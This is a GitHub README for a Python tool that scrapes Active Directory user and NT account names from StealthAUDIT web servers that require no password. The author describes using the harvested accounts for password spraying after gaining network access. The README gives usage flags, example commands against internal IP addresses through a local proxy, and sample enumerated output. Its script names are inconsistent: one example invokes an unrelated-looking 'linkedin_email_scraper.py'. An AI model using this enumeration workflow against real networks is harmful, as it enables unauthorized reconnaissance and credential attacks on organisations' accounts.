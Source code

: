 # Stealth_Audit_Scraper
This tool was created to scrape the <a href ="https://stealthbits.com/stealthaudit-for-active-directory-product/">StealthAUDIT Active Directory Auditing Tool</a>. Currently, it scrapes the users name and NT account name from `Active Directory > Users > User Token`. I wrote this because I had no foothold on a network and came across this gem. I immedately scraped all AD users then started spraying passwords! Right now this tool only works with passwordless StealthAUDIT instances. Good luck, have fun!

## stealth_scrape.py usage:
```
usage: stealth_audit_scraper.py [-h] [-o OUTFILE] [-u URL] [-p PROXY] [-pp PROXY_PORT]

StealthAUDIT Scraper >:D

optional arguments:
  -h, --help            show this help message and exit
  -o OUTFILE, --outfile OUTFILE
                        The file to write users to.
  -u URL, --url URL     The webserver in format {http://10.0.0.1:80}.
  -p PROXY, --proxy PROXY
                        The proxy ip in format {10.0.0.1}.
  -pp PROXY_PORT, --proxy_port PROXY_PORT
                        The proxy port in format {1080}.
```

   Basic usage of script:
   
    python3 stealth_scrape.py -u http://10.20.8.85 -p 127.0.0.1 -pp 1080 -o accounts.txt

   Advanced usage of linkedin_email_scraper.py:
   
    $ python3 linkedin_email_scraper.py scraper.py -u http://10.15.8.20
    [+] Attempting to visit http://10.15.8.20
    [+] Clearing all cookies...
    [+] Dropping down menu
    NT_Account:contoso\administrator	Name:Administrator
    NT_Account:contoso\susanb	Name:Barin, Susan
    
   Example output of ad_users.txt:
   
    contoso\swilliams:Williams, Susan
    contoso\thawk:Hawk, Tony
    contoso\batman:Man, Bat
    contoso\dnutz:Nutz, Deez
    contoso\kmitnick:Mitnick, Kevin
    contoso\rmudge:Mudge, Raphael
    contoso\tmutton:Mutton, Tim
